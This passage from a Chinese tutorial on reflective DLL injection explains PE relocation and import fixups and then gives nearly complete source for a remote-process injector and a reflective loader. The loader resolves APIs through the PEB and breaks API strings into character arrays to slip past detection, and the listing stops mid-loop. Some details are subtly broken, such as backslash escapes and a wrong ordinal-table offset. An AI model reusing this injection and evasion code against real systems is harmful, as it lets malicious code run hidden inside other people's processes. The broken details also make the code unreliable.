
    // 移动到下一个节头的位置
    pSectionHeader++;
}
```

## 3.4 修复重定位表

大致步骤

1. **计算基址偏移量**
2. **定位重定位表**
3. **遍历重定位块**
4. **处理重定位条目**
5. **地址修正逻辑**

```
重定位表 (Relocation Table)
├── 重定位块 1 (Block 1)
│   ├── IMAGE_BASE_RELOCATION 头
│   ├── 条目 1 (TypeOffset)
│   ├── 条目 2 (TypeOffset)
│   └── ...
├── 重定位块 2 (Block 2)
│   ├── IMAGE_BASE_RELOCATION 头
│   ├── 条目 1 (TypeOffset)
│   └── ...
└── ...
```

### （一）重定位表

在反射式DLL注入中，当DLL未加载到其预设基址（`ImageBase`）时，需通过**重定位表**修正所有硬编码地址，也就是绝对地址，确保代码正确执行。此过程是绕过ASLR（地址空间布局随机化）的关键步骤

重定位表是一个可变长度的数据结构，它会被单独存放在 `.reloc` 命名的节中，重定位表的位置和大小可以从数据目录中的第6个（索引值为5） `IMAGE_DATA_DIRECTORY` 结构中获取到，它的数据结构如下

```
typedef struct _IMAGE_DATA_DIRECTORY {
    DWORD   VirtualAddress;
    DWORD   Size;
} IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;
```

重定位表由多个**重定位块（Relocation Block）** 组成，每个块对应一个内存页（4KB），其中 `VirtualAddress` 字段记录了第一个重定位块的位置

### （二）重定位块

每个重定位块以一个 `IMAGE_BASE_RELOCATION` 结构开头，后面跟着在本页中使用的所有重定位项，每个重定位项占用16位，最后一个块是一个使用全0填充的 `_IMAGE_BASE_RELOCATION` 全零结束块。`IMAGE_BASE_RELOCATION` 数据结构如下所示

```
typedef struct _IMAGE_BASE_RELOCATION {
    DWORD   VirtualAddress;
    DWORD   SizeOfBlock;
//  WORD    TypeOffset[1];
} IMAGE_BASE_RELOCATION;
typedef IMAGE_BASE_RELOCATION UNALIGNED * PIMAGE_BASE_RELOCATION;
```

### （三）重定位条目（TypeOffset）

TypeOffset的每个元素都是一个自定义类型结构，每个重定位条目为 **16位（WORD）**，其组成如下：

|  |  |  |
| --- | --- | --- |
| 位域 | 长度 | 作用 |
| **Type** | 高4位 | 定义地址修正类型（如DIR64） |
| **Offset** | 低12位 | 相对于块头VirtualAddress的偏移 |

数据结构定义

```
typedef struct
{
    WORD	offset : 12;
    WORD	type : 4;
} IMAGE_RELOC, * PIMAGE_RELOC;
```

若条目值为`0x3012`（十六进制），则：

* `Type = 0x3` → `IMAGE_REL_BASED_HIGHLOW`
* `Offset = 0x012` → 偏移18字节

TypeOffset的元素个数 = （SizeOfBlock - 8 ）/ 2 ，`SizeOfBlock` 表示块的总字节数，`SizeOfBlock - 8` 表示减去 `IMAGE_BASE_RELOCATION` 结构体所占的字节数得到一个块内所有重定位条目所占的字节数，一个重定位条目占2个字节，`（SizeOfBlock - 8 ）/ 2` 就得到重定位条目的数量了。

在下面的代码中有这样的一条语句 `(PBYTE)relocList != (PBYTE)relocation + relocation->SizeOfBlock`。这里的relocation指向当前块的起始位置，而SizeOfBlock是整个块的大小，包括块头（IMAGE\_BASE\_RELOCATION结构）和后续的重定位项，当 `relocList` 的地址达到当前块的末尾（即 `relocation` 的起始地址加上 `SizeOfBlock` 的值）时停止循环。

当然你也可以计算出一个重定位块的重定位条目数，然后用for循环遍历也是可以的，感兴趣的读取可以自己去实现。

### （四）地址修正

简单举一个例子

```
*(PULONG_PTR)(BaseAddress + relocation->VirtualAddress + relocList->offset) += baseOffset;
```

**公式**： `BaseAddress`（DLL实际基址） + `VirtualAddress`（块起始RVA） + `offset`（条目偏移）= 实际需要修正的**内存位置**（即存储原始地址值的地址）  
接下来我们分步来解释这一条语句

1. **计算目标内存地址**：BaseAddress + relocation->VirtualAddress + relocList->offset，三者相加得到需要修正的**内存位置**（即存储原始地址值的地址）
2. **指针类型转换**：转换为PULONG\_PTR类型的指针，确保后续操作按机器字长处理数据，适应不同架构的地址修正需求
3. **解引用**：通过指针访问目标内存地址处的值，获取需要修正的**原始地址值**（如全局变量地址、函数指针等）
4. **应用基址偏移修正**：新地址 = 原地址 + (实际基址 - 预期基址)

**内存位置变化，举一个全局变量的例子**：

* baseOffset：`实际加载地址 (BaseAddress) - 预期基地址 (ImageBase) = 0x20000000 - 0x10000000 = 0x10000000`
* 原内存地址： `0x10001234`
* 新内存地址：`0x10001234 + baseOffset = 0x20001234`

程序中某个全局变量地址原先指向 `0x10001234` 的地址，被动态修正为 `0x20001234`，使其指向实际加载后的正确位置。



完整代码如下

```
/*---------------------第四步：修复重定位表----------------------*/

// 计算实际加载地址与预期基址的偏移量（重定位修正量）
DWORD_PTR baseOffset = ((ULONG_PTR)BaseAddress - (ULONG_PTR)pNtHeader->OptionalHeader.ImageBase);

// 获取PE头中定义的重定位表目录信息
PIMAGE_DATA_DIRECTORY pRelocDir  = &pNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
PIMAGE_RELOC relocList;

// 仅当存在基址偏移且重定位表非空时处理
if (baseOffset && pRelocDir ->Size) {

    // 定位到内存中重定位表的起始位置（RVA转换为实际地址）
    PIMAGE_BASE_RELOCATION relocation = (PIMAGE_BASE_RELOCATION)(pRelocDir ->VirtualAddress + (ULONG_PTR)BaseAddress);

    // 遍历所有重定位块（直到遇到VirtualAddress为0的终止块）
    while (relocation->VirtualAddress) {

        // 定位到当前块内的重定位条目列表（紧接在块头之后）
        relocList = (PIMAGE_RELOC)(relocation + 1);

        // 遍历当前块内的所有重定位条目
        while ((PBYTE)relocList != (PBYTE)relocation + relocation->SizeOfBlock) {

            /* 根据重定位类型进行地址修正：
               DIR64   - 64位全地址修正（x64架构）
               HIGHLOW - 32位全地址修正（x86架构）
               HIGH    - 修正32位地址的高16位
               LOW     - 修正32位地址的低16位 */
            if (relocList->type == IMAGE_REL_BASED_DIR64)
                *(PULONG_PTR)(BaseAddress + relocation->VirtualAddress + relocList->offset) += baseOffset;
            else if (relocList->type == IMAGE_REL_BASED_HIGHLOW)
                *(PULONG_PTR)(BaseAddress + relocation->VirtualAddress + relocList->offset) += (DWORD)baseOffset;
            else if (relocList->type == IMAGE_REL_BASED_HIGH)
                *(PULONG_PTR)(BaseAddress + relocation->VirtualAddress + relocList->offset) += HIWORD(baseOffset);
            else if (relocList->type == IMAGE_REL_BASED_LOW)
                *(PULONG_PTR)(BaseAddress + relocation->VirtualAddress + relocList->offset) += LOWORD(baseOffset);

            // 移动到下一个重定位条目
            relocList++;
        }
        // 移动到下一个重定位块（当前块末尾作为新块起始）
        relocation = (PIMAGE_BASE_RELOCATION)relocList;
    }
}
```

## 3.5 修复导入表

大致思路

1. 获取导入表中的每一个导入描述符（`PIMAGE_IMPORT_DESCRIPTOR`），导入描述符中存放着需要导入的DLL的名称的RVA。
2. 使用在 `获取所需要的Windows API` 获取的LoadLibraryA的函数指针加载相应的DLL
3. 以 `IMAGE_IMPORT_DESCRIPTOR` 的 `OriginalFirstThunk` 作为导入名称表（**INT**，Import Name Table），根据INT中存放信息，我们可以选择序号导入还是名称导入，无论哪一种导入，都需要使用之前获取到的GetProcAddress指针解析需要的函数地址。
4. 将解析得到的函数地址填写到导入地址表（**IAT**，Import Address Table)
5. 移动到下一个导入描述符，重复上述操作

既然都说到了INT和IAT，就简单的做个介绍

|  |  |  |
| --- | --- | --- |
| 阶段 | INT | IAT |
| 编译时 | 由链接器生成 | 初始内容与INT相同 |
| 磁盘存储 | 保存函数名/序号 | 保存函数名/序号的副本 |
| 加载时 | 保持原样 | 被加载器替换为实际地址 |
| 运行时 | 保持原样 | 包含实际函数指针 |

协调工作

1. 加载器遍历INT中的每个IMAGE\_THUNK\_DATA
2. 根据每个thunk项解析函数地址：

* 如果是序号导入：`Ordinal & IMAGE_ORDINAL_FLAG`
* 如果是名称导入：`AddressOfData`指向IMAGE\_IMPORT\_BY\_NAME

1. 将解析得到的函数地址写入IAT对应位置
2. 程序执行时通过IAT中的地址调用API

完整代码

```
/*---------------------第五步：修复导入表---------------------*/
PIMAGE_IMPORT_DESCRIPTOR pImport = (PIMAGE_IMPORT_DESCRIPTOR)(pNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress + BaseAddress);
//这个是IID的指针
if (pImport != NULL)
{
    while (pImport->Name != NULL)
    {
        char DLLname[100] = { 0 }; // 定义一个存储 DLL 名称的缓冲区
        char* uiLibraryAddressName = (char*)(pImport->Name + BaseAddress); // 获取 DLL 名称的地址

        // 手动将名称拷贝到 DLLname 缓冲区
        for (int i = 0; i < sizeof(DLLname) - 1; i++)
        {
            if (uiLibraryAddressName[i] == '\0') // 遇到字符串结束符时停止
                break;
            DLLname[i] = uiLibraryAddressName[i]; // 拷贝字符
        }
        DLLname[sizeof(DLLname) - 1] = '\0'; // 确保缓冲区以 '\0' 结尾

        //通过名称找句柄
        HMODULE hProcess = pLoadLibraryA(DLLname);               
        if (!hProcess)
        {
            return FALSE;
        }

        PIMAGE_THUNK_DATA64 pINT = (PIMAGE_THUNK_DATA64)(pImport->OriginalFirstThunk + BaseAddress);// 导入名称表
        PIMAGE_THUNK_DATA64 pIAT = (PIMAGE_THUNK_DATA64)(pImport->FirstThunk + BaseAddress); // 导入地址表
        while ((ULONG_PTR)(pINT->u1.AddressOfData) != NULL)
        {
            //根据IAT中存放信息，我们可以选择序号导入还是名称导入               
            if (pINT->u1.AddressOfData & IMAGE_ORDINAL_FLAG32)//判断如果是序号就是第一种处理方式
            {
                //通过序号来获取地址
                pIAT->u1.AddressOfData = (ULONG_PTR)(pGetProcAddress(hProcess, (LPCSTR)(pINT->u1.AddressOfData)));
            }
            else
            {
                //通过函数名来获取地址
                PIMAGE_IMPORT_BY_NAME pFucname = (PIMAGE_IMPORT_BY_NAME)(pINT->u1.AddressOfData + BaseAddress);
                pIAT->u1.AddressOfData = (ULONG_PTR)(pGetProcAddress(hProcess, pFucname->Name));             
            }
            pINT++;
            pIAT++;
        }
        pImport++;
    }
}
```

## 3.6 获取dllmain的地址，执行dllmain

这一步比较简单，直接上代码

```
/*---------------------第六步：获取dllmain的地址，执行dllmain---------------------*/

// 获取映射后的DLL的NT头
PIMAGE_NT_HEADERS pNT = (PIMAGE_NT_HEADERS)(BaseAddress + pDOSheader->e_lfanew);

// 获取DLL的入口点，一般为DllMain
FARPROC dllentry = (FARPROC)((LPBYTE)BaseAddress + pNT->OptionalHeader.AddressOfEntryPoint);

// 执行DllMain函数
dllentry();
return TRUE;
```

# 四、完整代码

## 4.1 Inject

```
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>
#include <stdlib.h>

DWORD RVAtoFileOffset(DWORD RVA, PIMAGE_NT_HEADERS pNtHeader, PIMAGE_SECTION_HEADER pSec);
LPVOID GetProcAddrByName(LPVOID lpRemoteLibraryBuffer, const char* funcName, LPVOID pBuf);
int main() {
    //先定义需要注入的dll与目标进程的名字
    char Dllname[MAX_PATH] = "D:\C#project\反射DLL\x64\Debug\反射DLL.dll";


    //查找获得目标进程的id
    DWORD dwPid = 41424;

    //与普通dll注入一样，首先要做的是获取句柄
    HANDLE hProc = NULL;

    // 打开DLL文件
    HANDLE hFile = CreateFileA(Dllname, GENERIC_READ,FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("
[-] CreateFileA failed.");
        return FALSE;
    }

    // 获取DLL的大小
    DWORD FileSize = GetFileSize(hFile, NULL);
    LPDWORD SizeToRead = 0;

    // 创建本地堆空间
    LPVOID lpBuffer = HeapAlloc(GetProcessHeap(), 0, FileSize);
    if (!lpBuffer) {
        printf("
[-] 创建本地堆空间失败");
    }

    // 读取文件内容到本地堆空间
    DWORD dwBytesRead = 0;
    int result = ReadFile(hFile, lpBuffer, FileSize, &dwBytesRead, NULL);
    if (result == 0)
    {
        printf("
[-] 文件读取失败");
        return FALSE;
    }

    // 对接下来开辟的空间进行计算大小
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)lpBuffer;
    PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)((BYTE*)lpBuffer + pDosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER pSection = (PIMAGE_SECTION_HEADER)((LPBYTE)pNtHeader + sizeof(IMAGE_NT_HEADERS));
    DWORD ImageSize = pNtHeader->OptionalHeader.SizeOfImage;

    // 打开目标进程，获得其句柄
    hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
    if (!hProc)
    {
        DWORD dwError = GetLastError();
        printf("
[-] OpenProcess failed. Error code: %d
", dwError);
        return FALSE;
    }

    // 申请一块保护属性为PAGE_EXECUTE_READWRITE的内存空间
    LPVOID lpRemoteLibraryBuffer = VirtualAllocEx(hProc, NULL, ImageSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpRemoteLibraryBuffer == NULL) {
        printf("
[-] 内存分配失败, 错误代码: %d", GetLastError());
        return FALSE;
    }

    //将dll文件写入进去
    if (!WriteProcessMemory(hProc, lpRemoteLibraryBuffer, lpBuffer, FileSize, NULL)) {
        printf("
[-] 写入失败，错误代码: %d", GetLastError());
        return FALSE;
    }

    // 假设 ReflectLoader 是目标函数名
    const char* ReflectiveLoaderName = "ReflectiveLoader";

    // 获取 ReflectLoader 在目标进程内存中的地址
    LPVOID pReflectLoader = GetProcAddrByName(lpRemoteLibraryBuffer, ReflectiveLoaderName, lpBuffer);
    if (!pReflectLoader) {
        printf("[-] Failed to find ReflectLoader.
");
        VirtualFreeEx(hProc, lpRemoteLibraryBuffer, 0, MEM_RELEASE);
        return FALSE;
    }

    // 调用 ReflectLoader 函数
    HANDLE hThread = CreateRemoteThread(hProc,NULL,0, (LPTHREAD_START_ROUTINE)pReflectLoader, NULL,0,NULL);
    if (!hThread) {
        printf("
[-] CreateRemoteThread failed: %d", GetLastError());
        VirtualFreeEx(hProc, lpRemoteLibraryBuffer, 0, MEM_RELEASE);
        return FALSE;
    }

    printf("
[+] ReflectLoader executed successfully.");

    // 等待线程执行完成
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    VirtualFreeEx(hProc, lpRemoteLibraryBuffer, 0, MEM_RELEASE);
    return TRUE;

}

//作用：RVA->文件偏移地址
//公式：文件偏移 = 节区文件起始地址（PointerToRawData） + （RVA - 节区虚拟起始地址（VirtualAddress））
DWORD RVAtoFileOffset(DWORD RVA, PIMAGE_NT_HEADERS pNtHeader, PIMAGE_SECTION_HEADER pSec) {
    
    // 遍历节区表
    DWORD SectionNumber = pNtHeader->FileHeader.NumberOfSections;
    for (int i = 0; i < SectionNumber; i++) {
        // 检查RVA是否在当前节区的范围内
        if (RVA >= pSec[i].VirtualAddress && RVA < pSec[i].VirtualAddress + pSec[i].SizeOfRawData) {
            // 转换RVA到文件偏移地址
            return pSec[i].PointerToRawData + (RVA - pSec[i].VirtualAddress);
        }
    }
    // 如果未找到对应的节区，返回无效值
    return 0xFFFFFFFF;
}

//作用：该函数通过导出表获得指定函数的地址
LPVOID GetProcAddrByName(LPVOID lpRemoteLibraryBuffer, const char* funcName, LPVOID pBuf){

    //定位一些相关文件头
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBuf;
    PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)((BYTE*)pBuf + pDosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER pSec = (PIMAGE_SECTION_HEADER)((LPBYTE)pNtHeader + sizeof(IMAGE_NT_HEADERS));

    //获取导出表地址及大小，注意这里是RVA
    DWORD exportDirRVA = pNtHeader->OptionalHeader.DataDirectory[0].VirtualAddress;
    DWORD exportDirSize = pNtHeader->OptionalHeader.DataDirectory[0].Size;

    //定位导出表
    //得到的偏移地址是RVA，但是咱们的文件现在只是磁盘文件,所以需要转换为文件偏移
    DWORD exportDirFileOffset = RVAtoFileOffset((DWORD)exportDirRVA, pNtHeader, pSec);

    //转换之后RVA就变成了文件偏移，然后再定位
    PIMAGE_EXPORT_DIRECTORY pExportDir = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)pBuf + exportDirFileOffset);

    //解析导出表，这里同理都是RVA
    DWORD pRNames = pExportDir->AddressOfNames;
    DWORD pFNames = RVAtoFileOffset(pRNames, pNtHeader, pSec);
    DWORD* pNames = (DWORD*)((PBYTE)pBuf + pFNames);

    DWORD pRFunctions = pExportDir->AddressOfFunctions;
    DWORD pFFunctions = RVAtoFileOffset(pRFunctions, pNtHeader, pSec);
    DWORD* pFunctions = (DWORD*)((PBYTE)pBuf + pFFunctions);

    WORD pRNameOrdinals = pExportDir->AddressOfNameOrdinals;
    WORD pFNameOrdinals = RVAtoFileOffset(pRNameOrdinals, pNtHeader, pSec);
    WORD* pNameOrdinals = (WORD*)((PBYTE)pBuf + pFFunctions);

    // 遍历查找目标函数
    DWORD funcRVA = 0;
    for (DWORD i = 0; i < pExportDir->NumberOfNames; i++) {
        DWORD functionNameRVA = pNames[i];
        DWORD functionNameFileOffset = RVAtoFileOffset(functionNameRVA, pNtHeader, pSec);
        const char* pName = (char*)((PBYTE)pBuf + functionNameFileOffset);
        if (strcmp(pName, funcName) == 0) {
            funcRVA = pFunctions[i];
            break;
        }
    }
    if (funcRVA == 0) {
        printf("
[-] Function %s not found.", funcName);
        return NULL;
    }

    DWORD fileOffset = RVAtoFileOffset(funcRVA, pNtHeader, pSec);;
    DWORD* pfileOffset = (DWORD*)((PBYTE)pBuf + fileOffset);
    if (fileOffset == 0) {
        printf("
[-] Failed to convert RVA to file offset.");
        return NULL;
    }

    // 返回函数的地址
    LPVOID remoteFuncAddr = (LPBYTE)lpRemoteLibraryBuffer + fileOffset;
    return remoteFuncAddr;
}
```

## 4.2 ReflectiveLoader

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include <windows.h>
#include <stdbool.h>
#include <winternl.h>
typedef struct
{
    WORD	offset : 12;
    WORD	type : 4;
} IMAGE_RELOC, * PIMAGE_RELOC;

extern "C" __declspec(dllexport) BOOL ReflectiveLoader();
// DLL入口点函数
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{

    // 弹窗代码
    MessageBoxW(NULL, L"Hello Oneday!!!!!", L"注入程序检测中...", MB_YESNO | MB_ICONASTERISK);

    char processName[MAX_PATH] = { 0 }; // 存储进程路径的缓冲区

    // 获取当前进程的可执行文件路径
    DWORD length = GetModuleFileNameA(NULL, processName, MAX_PATH);
    MessageBoxA(NULL, processName, "当前进程路径: ", MB_YESNO | MB_ICONASTERISK);

    Sleep(99999999);

    return TRUE;
}
// 自定义宽字符转小写（简化版 Unicode 支持）
wchar_t my_towlower(wchar_t c) {
    // 基础拉丁字母（A-Z）直接转换
    if (c >= L'A' && c <= L'Z') {
        return c + 32;
    }

    // 拉丁扩展-A 大写字母（如 À, È, Ê 等）
    if (c >= 0xC0 && c <= 0xDE && c != 0xD7) { // 0xC0(À)~0xDE(Þ), 排除 0xD7(×)
        return c + 32;
    }

    // 特殊字符单独处理
    switch (c) {
    case L'İ': return L'i';    // 土耳其语 İ → i
    case L'Σ': return L'σ';    // 希腊大写 Sigma → 小写 sigma
    case L'Ϊ': return L'ϊ';    // 希腊大写 Iota with dialytika
        // 可在此添加更多特殊字符映射...
    }

    // 其他字符直接返回（视为无小写形式）
    return c;
}

// 不区分大小写的宽字符串比较函数（不修改原始字符串）
bool MyCompareStringW(const wchar_t* str1, const wchar_t* str2) {
    // 空指针检查
    if (str1 == NULL || str2 == NULL) return false;

    size_t i = 0;
    // 动态转换并比较字符，无需修改原始字符串
    while (str1[i] != L'\0' && str2[i] != L'\0') {
        wchar_t c1 = my_towlower(str1[i]);
        wchar_t c2 = my_towlower(str2[i]);

        if (c1 != c2) return false;
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == L'\0' && str2[i] == L'\0');
}

// ASCII字符串比较函数
bool MyCompareStringA(CHAR str1[], CHAR str2[]) {


    int i = 0;
    while (str1[i] && str2[i]) {

        if (str1[i] != str2[i]) {
            return false;
        }
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == '\0' && str2[i] == '\0');
}


// 提取 DLL 名称的函数
wchar_t* ExtractDllName(const wchar_t* fullDllName) {
    wchar_t* fileName = NULL;
    wchar_t* temp = (wchar_t*)fullDllName;

    // 遍历并找到最后一个 '\'，获取文件名部分
    while (*temp) {
        if (*temp == L'\') {
            fileName = temp + 1;  // 更新文件名的位置
        }
        temp++;
    }

    // 如果没有找到 '\'，则认为整个字符串就是文件名
    if (!fileName) {
        fileName = (wchar_t*)fullDllName;
    }

    return fileName;
}


FARPROC GetApiAddressByName(wchar_t* TargertDllName, char* ApiName) {
    
    // 从获取 PEB 地址
    PPEB pPEB = (PPEB)__readgsqword(0x60);

    // 获取 PEB.Ldr
    PPEB_LDR_DATA pLdr = pPEB->Ldr;

    // 遍历模块列表
    PLIST_ENTRY pListHead = &pLdr->InMemoryOrderModuleList;
    PLIST_ENTRY pCurrentEntry = pListHead->Flink;
    while (pCurrentEntry && pCurrentEntry != pListHead) {
        PLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(pCurrentEntry, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

        if (pEntry && pEntry->FullDllName.Buffer) {

            wchar_t* fullDllPath = pEntry->FullDllName.Buffer;

            // 提取 DLL 名称
            wchar_t* CurrentDllName = ExtractDllName(fullDllPath);

            // 比较 DLL 名称（不区分大小写）
            if (MyCompareStringW(CurrentDllName, TargertDllName)) {
                // 找到目标 DLL
                HMODULE hModule = (HMODULE)pEntry->DllBase;

                // 分析 PE 文件找到导出表
                PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hModule + ((PIMAGE_DOS_HEADER)hModule)->e_lfanew);
                PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule +
                    pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

                // 获取导出表的各个信息
                DWORD* pFunctionNames = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfNames);
                DWORD* pFunctionAddresses = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfFunctions);
                WORD* pFunctionOrdinals = (WORD*)((BYTE*)hModule + pExportDirectory->AddressOfNameOrdinals);

                // 遍历导出表，查找目标函数
                for (DWORD i = 0; i < pExportDirectory->NumberOfNames; i++) {
                    char* functionName = (char*)((BYTE*)hModule + pFunctionNames[i]);

                    // 找到函数名，获取其地址
                    if (MyCompareStringA(functionName, ApiName)) {
                        return (FARPROC)((BYTE*)hModule + pFunctionAddresses[pFunctionOrdinals[i]]);
                    }
                }

                // 如果遍历完导出表未找到函数，返回 NULL
                return NULL;
            }
        }

        pCurrentEntry = pCurrentEntry->Flink;
    }

    return NULL; // 未找到模块
}

extern "C" __declspec(dllexport) BOOL ReflectiveLoader()
{

    /*---------------------第一步：暴力搜索DLL的基址---------------------------------*/

    // 获得ReflectiveLoader函数的地址，如果找到了DLL基址，则将其存储到uiLibraryAddress，pNtHeader就是NT头的地址
    ULONG_PTR uiLibraryAddress = (ULONG_PTR)ReflectiveLoader;   
    ULONG_PTR uiHeaderValue = 0;                             
    PIMAGE_NT_HEADERS pNtHeader = 0;

    // 从ReflectiveLoader函数的地址往回退，直到找到DLL的基址
    while (TRUE)
    {
        // 验证是否为DOS头
        if (((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_magic == IMAGE_DOS_SIGNATURE)
        {
            // 验证是否为NT头
            uiHeaderValue = ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;
            if (uiHeaderValue >= sizeof(IMAGE_DOS_HEADER) && uiHeaderValue < 1024)
            {
                pNtHeader = (PIMAGE_NT_HEADERS)(uiHeaderValue + uiLibraryAddress);
                if (pNtHeader->Signature == IMAGE_NT_SIGNATURE)
                    break;
            }
        }
        uiLibraryAddress--;
    }

    if (!uiLibraryAddress)
        return FALSE;

    /*---------------------第二步：获取所需要的Windows API---------------------------*/

    // 定义API指针类型
    typedef FARPROC(WINAPI* GETPROCADDR)(HMODULE hModule, LPCSTR  lpProcName);
    typedef HMODULE(WINAPI* LOADLIBRARYA)(LPCSTR lpLibFileName);
    typedef LPVOID(WINAPI* VIRTUALALLOC)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD  flProtect);

    // 声明API指针变量
    GETPROCADDR pGetProcAddress = NULL;
    LOADLIBRARYA pLoadLibraryA = NULL;
    VIRTUALALLOC pVirtualAlloc = NULL;

    // 将字符串拆分为字符数组，嵌入代码段
    // 优化：这里可以将字符串用自定义哈希算法得到唯一值，我这里就不用了，具体看我给的参考资料
    WCHAR kernel32[] = { 'K', 'e', 'r', 'n', L'e', 'l', '3', '2', '.', 'd', 'l', 'l', '\0' };
    WCHAR ntdll[] = { 'n', 't', 'd', 'l', 'l', '.', 'd', 'l', 'l', '\0' };
    CHAR virtualAlloc[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'A', 'l', 'l', 'o', 'c', '\0' };
    CHAR loadLibraryA[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', '\0' };
    CHAR getProcAddress[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s','\0' };
    
    // 获取API的地址，将其存储在API指针变量中
    pGetProcAddress = (GETPROCADDR)GetApiAddressByName(kernel32, getProcAddress);
    pLoadLibraryA = (LOADLIBRARYA)GetApiAddressByName(kernel32, loadLibraryA);
    pVirtualAlloc = (VIRTUALALLOC)GetApiAddressByName(kernel32, virtualAlloc);

    if (!pLoadLibraryA || !pGetProcAddress || !pVirtualAlloc)
    {
        return FALSE;
    }

    /*---------------------第三步：加载 PE 文件节到内存---------------------*/

    //获取磁盘文件的DOS头
    PIMAGE_DOS_HEADER pDOSheader = (PIMAGE_DOS_HEADER)uiLibraryAddress;

    //给内存分配空间，并对BaseAddress进行初始化
    DWORD ImageSize = pNtHeader->OptionalHeader.SizeOfImage;  //内存空间大小
    PBYTE BaseAddress = (PBYTE)pVirtualAlloc(NULL, ImageSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (BaseAddress == NULL) return FALSE;

    // 手动实现 CopyMemory 的功能
    BYTE* dst = (BYTE*)BaseAddress;                          // 目标内存地址
    BYTE* src = (BYTE*)uiLibraryAddress;                     // 源内存地址
    size_t size = pNtHeader->OptionalHeader.SizeOfHeaders;   // 需要复制的字节数

    // 逐字节复制
    for (size_t i = 0; i < size; ++i) {
        dst[i] = src[i];                                     
    }

    // 复制节区表
    PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pNtHeader);  // 获取第一个节区头（节表起始位置）

    // 获取总节区数量（从 NT 头的 FileHeader 中读取）
    DWORD SectionNumber = pNtHeader->FileHeader.NumberOfSections;

    // 遍历所有节区
    for (int i = 0; i < SectionNumber; i++) {

        // 跳过没有原始数据或文件偏移为 0 的节区（例如 .bss 节）
        if (pSectionHeader->SizeOfRawData == 0 || pSectionHeader->PointerToRawData == 0) {
            pSectionHeader++;
            continue;
        }

        // 计算PE节在磁盘文件中的位置和在新内存中的位置，并将磁盘文件中的节复制到新内存中
        BYTE* SrcMem = (BYTE*)((ULONG_PTR)uiLibraryAddress + (DWORD)(pSectionHeader->PointerToRawData));
        BYTE* DstMem = (BYTE*)((ULONG_PTR)BaseAddress + (DWORD)(pSectionHeader->VirtualAddress));
        DWORD dwSizeOfRawData = pSectionHeader->SizeOfRawData;
        DWORD dwVirtualSize = pSectionHeader->Misc.VirtualSize;
        for (DWORD j = 0; j < dwSizeOfRawData; j++) {
            DstMem[j] = SrcMem[j];
        }

        // 如果内存中的节区大小 > 文件中的原始数据大小，需要填充剩余空间
        if (dwVirtualSize > dwSizeOfRawData) {
            BYTE* start = DstMem + dwSizeOfRawData;
            BYTE* end = DstMem + dwVirtualSize;
            while (start < end) {
                *start++ = 0;
            }
        }

        // 移动到下一个节头的位置
        pSectionHeader++;
    }

    /*---------------------第四步：修复重定位表----------------------*/

    // 计算实际加载地址与预期基址的偏移量（重定位修正量）
    DWORD_PTR baseOffset = ((ULONG_PTR)BaseAddress - (ULONG_PTR)pNtHeader->OptionalHeader.ImageBase);

    // 获取PE头中定义的重定位表目录信息
    PIMAGE_DATA_DIRECTORY pRelocDir  = &pNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
    PIMAGE_RELOC relocList;

    // 仅当存在基址偏移且重定位表非空时处理
    if (baseOffset && pRelocDir ->Size) {

        // 定位到内存中重定位表的起始位置（RVA转换为实际地址）
        PIMAGE_BASE_RELOCATION relocation = (PIMAGE_BASE_RELOCATION)(pRelocDir ->VirtualAddress + (ULONG_PTR)BaseAddress);

        // 遍历所有重定位块（直到遇到VirtualAddress为0的终止块）
        while (relocation->VirtualAddress) {

            // 定位到当前块内的重定位条目列表（紧接在块头之后）
            relocList = (PIMAGE_RELOC)(relocation + 1);

            // 遍历当前块内的所有重定位条目
            while ((PBYTE)relocList != (PBYTE)relocation + relocation->SizeOfBlock) {

                /* 根据重定位类型进行地址修正：
                   DIR64   - 64位全地址修正（x64架构）
                   HIGHLOW - 32位全地址修正（x86架构）
                   HIGH    - 修正32位地址的高16位
                   LOW     - 修正32位地址的低16位 */
                if (relocList->type == IMAGE_REL_BASED_DIR64)
                    *(PULONG_PTR)(BaseAddress + relocation->VirtualAddress + relocList->offset) += baseOffset;
                else if (relocList->type == IMAGE_REL_BASED_HIGHLOW)
